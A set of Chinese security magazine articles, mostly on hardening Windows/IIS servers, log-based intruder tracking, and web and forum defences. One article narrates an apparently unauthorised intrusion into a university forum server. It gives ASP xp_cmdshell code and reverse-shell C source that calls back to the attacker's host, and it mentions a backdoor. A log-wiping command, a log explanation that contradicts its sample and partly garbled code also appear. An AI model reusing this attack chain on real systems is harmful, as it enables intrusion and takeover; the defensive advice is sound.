在账户锁定策略中设置账户锁定阈值和账户锁定时间就可以解决这个问题，如图 3 所示。我们可以设置为输入密码 5 次错误就锁定该账户，30 分钟后再解锁，这样就可以有效防止密码被暴力破解。本地安全策略中的可设置项还有很多，限于篇幅和适用范围就不多说了，感兴趣的读者可以仔细研究。当然，安全和性能始终是一对矛盾，高安全必然会使性能在一定程度上降低，反之亦然。所以，我们需要根据实际情况选择一个平衡点。

| 策略 | 本地设置 | 有效设置 |
|---|---|---|
| 重置账户锁定计数器 | 没有定义 | 没有定义 |
| 账户锁定时间 | 没有定义 | 没有定义 |
| 账户锁定阈值 | 0 次无效登录 | 0 次无效登录 |

图 3

### 五、伪装

入侵者可以在入侵后进行克隆用户权限、修改端口等一系列伪装行动，那么系统管理员为什么不可以在被入侵前也进行一系列伪装，从而迷惑入侵者呢？

- **伪装用户**：首先，将系统默认内置账户 Administrator 改名，然后新建一个名为 administrator 的账户，描述改为“管理计算机（域）的内置账户”，设置足够长的密码。仅将它加入 Guest 组，这样便吸引入侵者去破解一个低权限账户，即使破解成功也没有多大利用价值。  
  有时我们会担心机器里有没有用户被克隆了管理员权限，怎么办？入侵者可以使用系统工具作为黑客工具，我们同样可以使用黑客工具为管理员效劳。我们可以利用 cca 这个黑客工具进行检测。

- **伪装端口**：有时出于特别需要，我们可能需要运行终端服务或 Telnet 等服务。那么降低风险的最好方法便是修改它们的默认服务端口，修改方法与入侵篇一样。例如，我们可以将 Telnet 修改为木马冰河默认端口 7626，将终端服务修改为 pcAnywhere 的 5631。  
  入侵者扫到了端口，自然会以为这台机器被种了木马，就拿那两个远程控制软件慢慢连吧，呵呵。

### 六、保护事件日志

事件日志对每位管理员都非常重要，因此它也成了入侵者的眼中钉。凡是成功入侵一台机器后，入侵者都会在退出前想方设法清除事件日志。那么保护好事件日志、随时做好备份就成了管理员必然的工作。对于个人用户来说，事件日志也会提供重要线索。那么这些事件日志都在什么地方呢？如图 4 所示。



图 4

- 安全日志、系统日志和应用程序日志存放在 `%systemroot%\system32\config` 路径下，默认文件大小 512KB。
- 安全日志文件：`%systemroot%\system32\config\SecEvent.EVT`
- 系统日志文件：`%systemroot%\system32\config\SysEvent.EVT`
- 应用程序日志文件：`%systemroot%\system32\config\AppEvent.EVT`
- IIS 日志文件位置可以通过日志记录属性对话框得知，Web 日志记录为 `W3SVC1` 文件夹，FTP 日志记录为 `MSFTPSVC1` 文件夹。

做个勤劳的管理员，经常查看和备份日志，将有利于及时发现问题。在这次入侵中，如果管理员能够较早发现日志文件被清空，自然会引起怀疑。这样一来，入侵者后面的计划就很可能落空。

### 七、全面检测，诱捕黑客

如果我们发现有黑客入侵迹象，千万不要手忙脚乱，要从每个可能被改动的地方进行检查：服务、账户、系统根目录可疑文件、进程、端口、日志文件、Documents and Settings 文件夹……再狡猾的狐狸也斗不过好猎手。

在服务列表中，我们可能会发现莫名其妙多出某一项服务，例如 snake 的 socksserver 就会生成一项服务；在用户列表中，也许会发现某些账户权限发生改变，以及 Guest 账户被激活之类情况；系统根目录多出一个 reboot.exe 文件；任务管理器进程列表多出 cccproxy（被安装了代理服务器软件）；在命令行下使用 `netstat -an` 发现开放了某个木马默认端口；日志文件中显示某一天服务器居然没有一个人来访问；Documents and Settings 文件夹下又生成了某个账户名文件夹（这个账户曾经以图形界面登录过操作系统）。

当然，了解到自己系统可能存在的弱点，才能更好把握入侵者心理和入侵方式。这里建议大家使用微软官方免费检测软件 MBSA（微软基准安全分析器），它以微软官方数据库为依托，可以检测出微软大多数产品的最新漏洞，并且使用起来非常简单。这样我们就能了解到入侵者是从哪个弱点入手进入系统的。

实际上，从整个入侵和防御过程来看，系统管理员安全意识的重要性远高于技术。管理员多点击一次鼠标，“黑客”就很可能要多敲 N 次键盘。管理员安全意识差，这也是国内网络安全状况差的一个重要原因。在黑客工具、黑客教程随处可见，网络入侵日益傻瓜化的今天，希望不论是服务器管理员还是个人用户，都能负起自己的责任，提高安全防范意识，在遭受入侵前就杜绝一切安全隐患。也希望我的文章在大家进行安全配置时能起到一些参考作用。///D

## 通过日志追踪入侵者

文 / softbug

说起日志，我们在排查系统故障时需要查看，追踪入侵者更需要查看日志……还有我们的攻防实验室核对参与者是否成功入侵，也是需要日志的帮忙。希望大家成功进入系统，拿到大奖！呵呵……离题了，大家还是看看本文吧！看看如何才能做好日志记录，从而完成对入侵者的追踪。

网络时代，计算机技术的普及，任何放在 Internet 上或者局域网上的计算机都可能被攻击。如何通过一些技巧来追踪入侵者，将衡量出自己的网络技术和能力，保护自己系统的完整性。今天，我们将通过分析日志的办法来追踪入侵者。

### 一、一般站点日志入侵追踪策略

一般来说，日志是通过计算机提供的服务来分类的。Web 服务一般是通过 IIS 日志提供的，FTP 服务方面，IIS 也集成了 FTP 服务器，但是其他软件也提供日志功能。采用日志可以帮助我们分析并追踪入侵者，选用相应服务软件时，最好选择有详细日志功能的。

还是让我们先来看看 HTTP（Web）日志。现在大多数站点都采用微软的 IIS 日志。IIS 日志默认放在 `C:\WINNT\system32\logfiles` 下面。看看下面普通的 IIS 日志：

```text
18:14:48 127.0.0.1 POST /CFIDE/main/ide.cfm 405
18:14:59 127.0.0.1 POST /CFIDE/main/ide.cfm 405
18:15:00 127.0.0.1 GET /temp.html 200
18:15:08 10.0.0.1 GET /index.asp 200
```

日志的第一行将告诉我们这是个 IIS 5.0 日志，`#Fields` 字段将显示客户端的 IP、客户端的连接时间、连接方法，以及提取的文件是什么、提取文件的状态和结果。在这个日志中，我们看到 10.0.0.1 这个地址通过 GET 方法得到 index.asp 文件。结果服务器拒绝 10.0.0.1 的要求，403 为 IIS 服务器拒绝存取的编号，404 为 IIS 文件服务器没有客户要求文件的编号。后来，10.0.0.1 采取了 POST 存取文件的方法，结果成功了。通过 IIS 日志，我们可以得到入侵者攻击的大致方向和攻击的 IP 地址。然后，通过反查 IP 地址的方法得到攻击源头。

```text
#Software: Microsoft Internet Information Services 5.0
#Version: 1.0
#Date: 2003-06-14 18:14:21
#Fields: time c-ip cs-method cs-uri-stem sc-status
18:14:23 10.0.0.1 GET /index.asp 403
18:14:25 10.0.0.1 GET /index.asp 404
```

这方面的内容杂志上介绍得比较多，这里就不叙述了。

但是，你可别小看 IIS 日志，微软只是给我们一点点功能罢了，我们其实还可以扩充 IIS 日志。选择“Internet 服务管理器”，选中其中一个站点点其属性，如图 1 所示。

然后再点属性，我们就可以对 IIS 的日志进行扩展了，如图 2 所示。

在这里，我们设置 IIS 更新日志时间为“每天”，以天为统计比较方便做报表。同时，我们需要更改 IIS 日志存放的地方，这样我们可以防止黑客篡改日志，保护系统安全。更深入的设置还是要到扩展属性栏目里面去，如图 3 所示。

上面的选择是 IIS 默认的选择，当然我们还需要对其扩展。我们需要知道客户的计算机名字、Cookies、协议等等，这些对以后追踪入侵者有很好的指导作用。详细的日志对于管理员来说是有备无患的。同样的方式，我们可以追踪 FTP 用户使用记录，查看其使用了什么命令、从系统中下载了什么文件。紧接着就可以通过 IP 的方式得到攻击源头。

> ### 小技巧
> 现在服务器的硬盘都很大，你可以将日志文件空间设置得大一些，这个无所谓。到时候就怕没有日志，查起来都难了。

### 二、大型网络的入侵日志追踪策略

大型网站除了要做到小型站点的所有要点外，可能还需要做到下面几个方面。

#### 1. Firewall 日志追踪

防火墙是大型站点里不可少的关键环节。防火墙不可能做下许多动作，否则将成为网络访问的瓶颈。但很多入侵者的攻击记录都会被防火墙记录下来，因此要及时保留防火墙日志来维护系统。

#### 2. IAS 日志追踪

大型站点对外访问都采用 NAT 方式，NAT 方式集中在 IAS 中。通过对 IAS 进行日志记录，我们也可以追踪入侵者。启动 IIS 验证服务器就可以做到。IAS 还可以根据从网络访问服务器（NAS）接收的验证和记账请求，创建日志文件，并将这些数据包收集在中心位置。建立并使用这种跟踪验证信息的日志文件（如每次接受、拒绝和自动账户锁定），可以帮助简化服务管理。也可以建立和使用日志来跟踪记账信息（如登录和注销记录），以帮助维持用于记账的记录。如图 4 所示。通过日志随时核查系统账户的使用，抓住入侵者的 IP 和动机。请记住入侵者是如何在内部网络活动的。IAS 的日志文件名为：`IASLOG.log`。文件大小最好不限制，如图 5 所示。

#### 3. SQL 服务器访问日志

大型站点对外可能提供大量数据库服务，所以为了防止数据库外泄，我们可以对数据库日志进行跟踪，以备用日志来追踪入侵者。通过 SQL 事件追踪就可以随时追踪 SQL 服务器的使用，一旦发现入侵者可以立即报警。如图 6 所示。

### 小结

对入侵者的追踪，我们仿佛停留在了对系统做日志记录上。其实，我们可以做到的也只能是这些。日志记录只为了留下对方的 IP，如果不能得到对方的 IP，那么我们做日志可能就没有用了。如果日志做得好的话，我们是否可以得到入侵者更多的东西呢？这就是为什么我们需要这么多日志的原因。

### 三、不可多得的系统事件记录

在我们使用系统的过程中，系统事件记录为我们提供了 Web、FTP、NNTP 以外更详细的日志记录，如图 7 所示。定制系统审核，我们将得到系统使用的全面信息。可能你要问，为什么我们要对系统做审核。原因很简单：入侵者时常在系统中隐藏自己的行踪，但它对系统操作都会做下详细记录。比如，我们可以通过审核 IIS 服务的启动和停止，追踪入侵者是否在使用 WebDAV 漏洞攻击系统。追踪入侵者的目的远远不只是抓住对方，而且还要知道自己的系统到底漏洞在什么地方。

下面是几个比较关键的日志文件存放地点：

- `C:\WINNT\system32\config\SysEvent.Evt`
- `C:\WINNT\System32\config\SecEvent.Evt`
- `C:\WINNT\system32\config\AppEvent.Evt`
- `C:\WINNT\system32\config\NTDS.Evt`
- `C:\WINNT\system32\config\DnsEvent.Evt`
- `C:\WINNT\system32\config\NtFrs.Evt`

管理员最好严格控制这几个文件的使用权。通过对系统各种操作的成功与否进行审核，就可以得到更多相关信息，如：入侵者修改具有 admin 权限文件的结果。

```bash
Eg: del C:\WINNT\system32\config\*.evt
```

显然这个事件要被记录下来，剩下的就只要核查是哪个用户在操作，这个用户的具体 IP 是多少。通过 IP 地址反查其 MAC 地址就可以抓到入侵者了。图 8 所示为事件的筛选图，可以把所有的审核都选中。

入侵者往往会制造一些动作来扰乱系统。这时候借助 NTFS 文件系统的审核功能，我们就能够知道入侵者到底是使用什么账号、以什么样的方式渗透到系统中的。这是一种通过审核日志追踪入侵者的办法。

### 小技巧

通常我们都在系统默认位置保存日志文件，权限一般为 Administrators 级别访问。入侵者往往采用删除或者破坏日志的办法。

### 四、总结

没有什么系统是完美得固若金汤的。合理地使用系统自己的东西来追踪入侵者将得到更好的收效。系统日志很重要，是每个管理员应保护的对象。为了你的系统健康运作，为了更好地追踪入侵者，请你现在就对你的系统做日志吧。

---

## 关于 Web 服务器内网的安全问题

在这个漏洞不断涌现的年代，网络的确没有绝对的安全。有时候，为了让我们的网站达到比较高的安全配置，我们做了很多防范措施，但是往往却忽略了一些容易出现问题的角落。网络安全完全符合木桶原理，一个网站的整体安全程度并不取决于它采用防范措施最强的地方，而是取决于其最薄弱的环节。网站的安全需要整体评估，任何一个地方的稍许疏忽，都会导致所有努力都付之东流。本文从发现漏洞、测试漏洞的角度，对 Web 服务器存在的一些问题展开阐述，经过验证得出一些 Web 服务器存在的安全隐患并给出防范措施。

很多公司或企业将其 Web 服务器放在内网，并在防火墙上做映射，将来自 80 端口的请求转向一台内网 Web 服务器的 Web 端口。这样做安全性是提高了不少，但并不代表将 Web 服务器隐藏在内网就一定安全了，因为 Web 服务器本身还是存在很多问题，特别是一些 CGI 程序，往往这是人们最容易忽视的地方。下面就以一台开放 80 端口的 Web 服务器为例，来测试其存在的安全隐患问题，并且对存在问题做测试描述，指出问题的症结所在并给出防范措施。

这是某大学的娱乐休闲网站，进去看了看，页面做得不错，先看一看是什么 Web 服务器吧。

## 漏洞攻击防范（EXPLOIT ATTACK DEFENCE）

```text
D:\nc -vvv www.target.com 80
DNS fwd/rev mismatch: www.target.com != target
www.target.com [192.168.0.1] 80 (http) open
GET / HTTP/1.0
HOST: www.target.com

HTTP/1.1 200 OK
Server: Microsoft-IIS/5.0
Content-Location: http://www.target.com/index.asp
Date: Thu, 22 May 2003 12:13:32 GMT
Content-Type: text/html
......
```

是 IIS 5.0，看看能不能直接溢出。用最新的 IIS WebDAV 溢出试试。个人感觉 isno 写的那个溢出比较好用，但因为它是在内网，这个工具导致溢出后会直接在 7788 端口绑定一个 cmd，这对我们的这次入侵来说肯定是不行的。所以，我将它修改了一下，使它可以反向连接，但最终还是不行，看来对方是打了补丁的。

又逛了一下其他版面，看到有个 BBS，是动网论坛而且版本还比较低（5.0 0320）。不错，这往往是我们的突破口（第一大失败）。很早以前我和我的好友 pskey 曾发现它的 cookie 变量未过滤漏洞，他还写了一个 Exploit（程序放在光盘中）。通过这个漏洞，我可以随意更改任意用户（包括总版主）的用户密码。我用这个 ID 进去，进到后台管理，修改设置，允许上传 `.exe`、`.asp` 等文件。再看看有没有禁用 FSO，结果没有禁用（第二大失败）。我通过它上传了一个 aspcmdshell。这个 aspcmdshell 可以使我以 guests 组权限的用户在 Web 服务器上执行命令，当然，前提是它没有去掉 guests 组对 `%systemroot%\winnt\cmd.exe` 的访问执行权限。试试 `dir c:\` 看看，果然没有禁止运行（第三大失败）。其实，如果它禁止了 cmd.exe 的运行权限也不要紧，我们可以自己上传一个上去，再改一下这个 aspcmdshell 就可以了。有了这个 aspcmdshell，我们可以做很多事情。当然这还不够，我的目的是拿到最高权限。

此时我就准备提升权限了。先看看管理员给了 guests 组哪些权限，看一下 ipconfig 的返回结果：

```text
Windows 2000 IP Configuration

Ethernet adapter 本地连接:
Connection-specific DNS Suffix
IP Address....................: 192.168.1.222
Subnet Mask...................: 255.255.255.0
Default Gateway...............: 192.168.1.1
```

哟，在内网，不错，再试试 `C:\` 可不可写，答案是不可写（不错）。再试试其他目录，整个 C 盘都不可写，只给了 Web 目录的可写权限。再看一看跑了哪些服务，用 `netstat -an` 命令来查看一下。

```text
TCP   127.0.0.1:1433   0.0.0.0:0   LISTENING
```

哟！还跑了 MSSQL，不错。这时候第一个想做的就是看看哪些程序使用了 MSSQL 数据库。再到主页上逛逛，看到有一个新闻系统，很有可能就是它。用刚才那个 aspcmdshell 去查看一下这个 `news/` 目录里面的 ASP 程序，看到很多文件第一行都有 `<!--#include file=config.asp-->`，基本上这个就是数据库链接程序了。查看一下：

```asp
strconn = "Driver={SQL server}; Description=sqldemo;SERVER=127.0.0.1;UID=sa;&PWD=hello;DATABASE=news"
set conn = server.createobject("adodb.connection")
conn.open strconn
```

果然不出我所料（第四大失败：将 MSSQL 的用户名和密码以明文形式存放在 ASP 文件里），拿到了 MSSQL 数据库的密码，而且还是 sa 用户的，权限比较大哦。本来想看看能不能查找一下新闻系统 ASP 程序的漏洞，利用一下 SQL Injection 的，看来现在完全没有必要了。自己写一个可以用 MSSQL 扩展 `xp_cmdshell` 来执行系统命令的 ASP 程序，这里有可能管理员删了这个扩展，或直接删掉了 `xplog70.dll` 这个文件。不管它，先试试再说。写 `sql.asp` 内容如下：

```asp
<%
set ad=Server.CreateObject("ADODB.Connection")
ad.Open "Provider=SQLOLEDB.1;Password=hello;User ID=sa"
if request("cmd")<>"" Then
  str = "exec master.dbo.xp_cmdshell '" & request("cmd") & "'"
  ad.Execute(str)
end if
%>
```

自己先开防火墙，记录 ICMP 数据包，然后在 IE 里执行：

```text
http://www.target.com/bbs/uploadimages/439587438739.asp?cmd=ping%20192.168.0.1
```

这个 ASP 是通过动网论坛自己的上传程序上传的，程序设定把上传文件都上传到 `uploadimages/` 这个目录里面，根据当前时间将文件重命名，所以文件名为 `439587438739.asp` 这样的全数字组成。

防火墙没反应，晕！看来是删了 `xp_cmdshell` 这个扩展，或直接删掉了 `xplog70.dll` 这个文件。如果没有直接删掉 `xplog70.dll`，而只是删了这个扩展的话，我来试一下恢复这个扩展。再写个 ASP：

```asp
<%
set ad=Server.CreateObject("ADODB.Connection")
ad.Open "Provider=SQLOLEDB.1;Password=hello;User ID=sa"
...
str = "EXEC sp_addextendedproc xp_cmdshell,@dllname='xplog70.dll'"
ad.Execute(str)
%>
```

上传上去，再执行：

```text
http://www.target.com/bbs/uploadimages/23456489432.asp
```

然后再提交请求：

```text
http://www.target.com/bbs/uploadimages/439587438739.asp?cmd=ping%20192.168.0.1
```

呵呵，我们的防火墙有反应了。来自 `www.target.com` 的 ICMP 数据包被记录。看来没有问题了，通过这个 ASP 我们可以执行很多命令（第五大失败），都是 system 权限，只不过没有回显，不是很完美。于是想到一个交互式 shell。写个反连程序吧：

```c
#include <winsock2.h>
#include <stdio.h>
#pragma comment(lib,"ws2_32")
void main(int argc, char *argv[])
{
    WSADATA wsaData;
    SOCKET hSocket;
    STARTUPINFO si;
    PROCESS_INFORMATION pi;
    struct sockaddr_in adik_sin;
    memset(&adik_sin,0,sizeof(adik_sin));
    memset(&si,0,sizeof(si));
    WSAStartup(MAKEWORD(2,0),&wsaData);
    hSocket = WSASocket(AF_INET, SOCK_STREAM, NULL, NULL, NULL, NULL);
    adik_sin.sin_family = AF_INET;
    adik_sin.sin_port = htons(53);
    adik_sin.sin_addr.s_addr = inet_addr("192...");
    ...
}
```

```c
c
168.0.1)); // 我的主机的IP
connect(hSocket, (struct sockaddr*)&adik_sin, sizeof(adik_sin));

si.cb = sizeof(si);
si.dwFlags = STARTF_USESTDHANDLES;
si.hStdInput = si.hStdOutput = si.hStdError = (void*)hSocket;

CreateProcess(NULL, "cmd.exe", NULL, NULL, 1, NULL, NULL, NULL, &si, &pi);
ExitProcess(0);
}
```

编译成 a.exe 然后上传上去。先在本机用 nc 监听一个端口 53，然后在 IE 里执行：

```bash
http://www.target.com/bbs/uploadimages/439587438739.asp?cmd=D:\inetpub\wwwroot\bbs\uploadimages\321564564654.exe
D:\>nc -l -p 53

Microsoft Windows 2000 [Version 5.00.2195]
```

版权所有 1985-2000 Microsoft Corp.

```bash
D:\inetpub\wwwroot\bbs\uploadimages>ipconfig
Windows 2000 IP Configuration
Ethernet adapter 本地连接:
  Connection-specific DNS Suffix:
  IP Address . . . . . . . . . . . : 192.168.1.222
  Subnet Mask . . . . . . . . . . . : 255.255.255.0
  Default Gateway . . . . . . . . . : 192.168.1.1
D:\inetpub\wwwroot\bbs\uploadimages>
```

好了，到此为止，入侵基本上完成了，现在我们已经拿到了一个 system 权限的交互式 shell，我们可以“为所欲为”了。

这个时候我们可以装一个后门，使得我们每次进来不用这么麻烦。我以前写了一个 IIS_BACKDOOR，使我们可以通过 80 端口来得到一个交互式 shell，且不影响 IIS 程序本身的正常运行。这个 backdoor 可以在我的主页上下载到。

上面的几大失败使得我们每进一步入侵都取得了更多的权限，其实一个优秀的管理员完全可以避免这些。所以，一个小小的 ASP 程序错误都可以使你的服务器被 Cracker 破坏。程序员们，该注意一下你们的程序了。针对前面我提到的几大失败，我稍稍总结一下管理员基本应该做到的地方：

- 1. 不要使用已知漏洞非常多的 ASP 程序，特别是像动网比较低的版本这类。即使使用了，也要经常去官方论坛看看比较新的漏洞信息，及时打补丁或升级程序。
- 2. 如果没有必要用到 FSO，可以禁用。
- 3. 用 `cacls %systemroot%\winnt\cmd.exe /e /d guests` 命令，禁止掉 GUESTS 组用户访问 cmd.exe。
- 4. 尽量不要将数据库的密码以明文的形式放在 ASP 程序里面，可以使用数据源的形式来连接数据库。
- 5. 一般用户应该用不到 xp_cmdshell 这个扩展，那么最好删掉 xplog70.dll；尽量不要用 sa 这个用户，将 sa 的密码设复杂一些，可以另建一个用户，把权限调到最低。

> 文中所提到的被攻击的网站主机并非一台暴露在外面的靶机，而是通过防火墙映射放在内网的服务器。这次某种程度上说安全度的确应该得到了很大提高，但是最终还是在论坛上疏忽了（很早以前的漏洞没有打上），这使得论坛成为了这次攻击的突破点。而另外几个失误也很大程度上增加了丢失 system 权限的机会。看来，网络安全的确需要从最基本的做起，任何一个环节都不容有误啊。

## Discuz论坛短消息

### 未限制发送次数缺陷
### 防范方法

> 难度等级：中  
> 前置知识：熟悉 PHP 脚本编写  
> 文 / Suckey

对于不同的论坛，处理方法有所不同，但大致思想应该是相同的。这里我们从 Discuz 论坛出发，具体对其防范方法加以简单介绍，攻击方法详见攻册的相应文章。

#### 限制用户发信的间隔时间

可以利用 PHP 的 SESSION 或者 COOKIE 来限制用户每次发信的间隔。处理用户发送短信时，可以选择以下两种方式区别用户是否在规定的时间内连续发送短信。假设管理员设置两次发帖时间的间隔为 2 分钟，看看下面两个例子：

- 1. Cookie方式
- 2. Session方式

```php
if ($beforepmid) die("对不起, 你两次发信的时间间隔还不到2分钟!");
// $beforepmid 前一次发信的ID
else setcookie("beforepmid", $pmid, time()+60*2, "/", "", 0);
// $pmid 短信ID

session_start();
if (session_is_registered("time") && time()-$_SESSION['time']<60*2) {
  die("对不起, 你两次发帖的时间间隔还不到2分钟!");
} else {
  $time=time();
  session_register("time");
}
```

Cookie 需要发送到客户端，攻击者可以删除该 Cookie，这样看来好像 Session 比较安全些，因为其在服务器端。不过，我认为实际上应该是差不多的。因为它是连续发送，中间的间隔时间很短，用户是来不及删除该 Cookie 的，但也不排除有人编段小程序来删除 Cookie。为了确保安全，还是使用 Session 吧。Session 方式的文件为“session_pm.php”，去掉前面的“session_”然后覆盖到 Discuz 目录下，记得备份原 Discuz 目录下的 pm.php，以便出错后可以挽回。

如果希望用 Cookie 的方式来防止攻击的话，就用“cookie_pm.php”这个文件吧。把前面的“cookie_”去掉，然后覆盖到 Discuz 目录下，同样最好先备份 Discuz 目录下的 pm.php 文件。

### 对于恶意IP的预防措施

在第86行后加入以下代码：

```php
$pmsubmit=$_POST['pmsubmit'];
$msgto=$_POST['msgto'];
$subject=$_POST['subject'];
$message=$_POST['message'];
```

OK，这下攻册中所说的高效攻击方法失效了。

最后，附上两个修改好的 pm.php 文件（http://www.4ngel.net/img/pm.rar）。一个为 Cookie 方式，一个为 Session 方式。如果你是直接使用上面文件中的一种，请将文件名改为 pm.php，然后再覆盖到 discuz 目录下。进入管理员后台的“界面风格->模板套系”下编辑“Discuz! 语言包”下的“templates”选项，搜索“pm_box_isfull”，在“pm_box_isfull => 您的信箱已满，在阅读短消息前必须删除一些不用的信息”后加上以下内容：

```php
'pm_send_partition' => '对不起，你两次发信的时间间隔还不到2分钟。'
```

```php
'pm_box_isfull' => '您的信箱已满，在阅读短消息前必须删除一些不用的信息。'
'pm_send_partition' => '对不起，你两次发信的时间间隔还不到2分钟。'
'pm_nonexistence' => '对不起，短消息不存在或已经删除。'
```

其实，Discuz 论坛还是个未成熟的论坛，其中还存在着一些大大小小的漏洞，希望开发者们能引起注意。当然，如果你在使用过程中又发现了什么新的漏洞与防范方法，也记得要告诉我们啊！

## 不可忽视的Web安全

看了《为什么被忽视的总是我——浅谈Web攻击》这篇文章后，你一定对 Web 攻击技术有了一定的了解，那么我们如何来防范 Web 攻击呢？这里将给你介绍几个对策，相信你也能很好地来防范 Web 攻击。

难度等级：初级  
前置知识：Apache 服务器简单配置

对于 Web 服务器拒绝鉴定攻击，我们可以通过修改默认的 Banner 和屏蔽掉 OPTIONS 请求来实现。那么，如何来修改这些默认的 Banner 信息呢？

### 1. IIS

对于 IIS 来说，Web 的 Banner 存放在下面的文件里：`%systemroot%\system32\inetsrv\w3svc.dll`。

我们可以用记事本将它打开，查找我们想要找 Banner 的关键字，例如 IIS5.0 的 Web 服务器就是要找 `Microsoft-IIS/5.0`。然后直接修改成我们想要修改成的样子，这个可以随实际需要了，我们可以改成 Apache 的 Web 服务器，也可以是未知的 Web 服务系统，随你高兴了，然后保存。

当然，你也可以利用一个比较傻瓜的工具来实现，它是 IIS-Banner-Edit（光盘中有收录），在 New Banner 里输入你想要的 Banner 信息就可以了（图1）。

这里需要注意的有两点：一是在修改的时候请先停止 IIS 服务，可以用 `iisreset /stop` 或者是 `net stop w3svc`；二是由于 Windows 系统后台的文件保护机制的作用，当系统一旦发现重要的 DLL 文件被修改后就会尝试调用 `%systemroot%\system32\dllcache` 目录下的备份文件来进行恢复，所以在修改前我们还需要事先删除 `%systemroot%\system32\dllcache` 目录下的同名文件，或者是修改该文件。

那么，如何来屏蔽 OPTIONS 请求呢？我们可以使用微软的 IIS URLScan，在 URLScan.ini 文件里添加下面的一行：

```ini
[options]
UseAllowVerbs=0

[Deny Verbs]
OPTIONS   // 注意是大写的
```

这样就可以简单地防止 Web 服务器指纹鉴定了。

### 2. Apache

对于 Apache 来说，我们也有这样的工具，Apache-Banner-Edit.exe（光盘中也有收录），在 New Banner 里输入你想要的 Banner 信息就可以了，也很简单（图2）。

那么，Apache 服务器如何屏蔽 OPTIONS 请求呢？我们需要修改 httpd.conf，可以在该文件内插入下面这一行文字：

```apache
RewriteEngine on
RewriteCond %{REQUEST_METHOD} ^OPTIONS
RewriteRule .* - [F]
```

这样也可以简单地防止 Web 服务器指纹鉴定了。对于 XST，因为要用到 TRACE 请求，因此只要屏蔽掉该请求就可以简单地防止 XST 攻击了。在微软 IIS 里我们可以使用 IIS URLScan，在 URLScan.ini 文件里添加下面的一行：

```ini
[options]
UseAllowVerbs=0

[Deny Verbs]
TRACE   // 注意是大写的
```

这样就可以简单地防止 XST 了。在 Apache 里，我们需要修改 httpd.conf，可以在该文件内插入下面这一行文字：

```apache
RewriteEngine on
RewriteCond %{REQUEST_METHOD} ^TRACE
RewriteRule .* - [F]
```

这样也可以简单地防止 XST。

- 1. 用户要及时给自己使用的浏览器打上补丁，这应该是安全策略里最重要的一环了。
- 2. 那些使用 Web 服务器的管理员要为该 Web 服务程序及时打补丁并且禁止 TRACE 请求。
- 3. Web 服务器提供商也应该告诉使用者如何来屏蔽 TRACE 请求。
- 4. 那些支持 Active 控件的 Web 服务器应该把未经授权认证的请求标记为非法，而那些 Flash、Java 的提供商也应该加强安全策略。
- 5. 对于程序开发者则要加强代码的安全性。

> 编后：对于 SQL injection 攻击的防范，建议大家去看 ISN 的文章。做了上述的安全配置后，相信可以简单地防止一些攻击。其实，安全主要还是意识的问题，比如打补丁等，没有安全意识，最好的配置也是没有用的。

## Alert! 来自135端口的攻击

## ——DCOM RPC漏洞防范方法

在这册中，我们谈到了 LSD RPC 漏洞的利用方法。如果说以往打补丁是为了防止遭到恶意黑客攻击的话，那对于该漏洞来说，其补丁的意义绝对不仅于此。正如 Slammer 展示给大家的情形，如果一台机器没有打好补丁，可能会导致一个内部网络近于瘫痪。而这个世界上 Windows 的用户比 SQL Server 的用户不知要多多少倍，所以一旦有 RPC 蠕虫出现，其后果将会更加严重。既然如此，防范这个话题就变得极为必要了。

### 一、停止RPC服务

最简单最省事的方法就是停止 RPC 服务。先让我们来对 RPC 做一个感性的认识吧。RPC 服务是在系统启动时自动加载的，打开你的任务管理器，如果把 SVCHOST 一个接一个地关掉（SVCHOST 负责了很多服务），当你关闭负责 Remote Procedure Call（RPC）服务的 SVCHOST 进程时，就会跳出一个窗口，告诉你因为非法关闭了 RPC 服务，电脑在多少秒以后会自动重启。如果您感兴趣可以一试，后果不是很严重，重启的时候可能要自检 :）。

下面说说具体关闭办法：运行 dcomcnfg.exe，选择 services(local)（服务），在里面找到 Remote Procedure Call（RPC）服务，关掉即可。

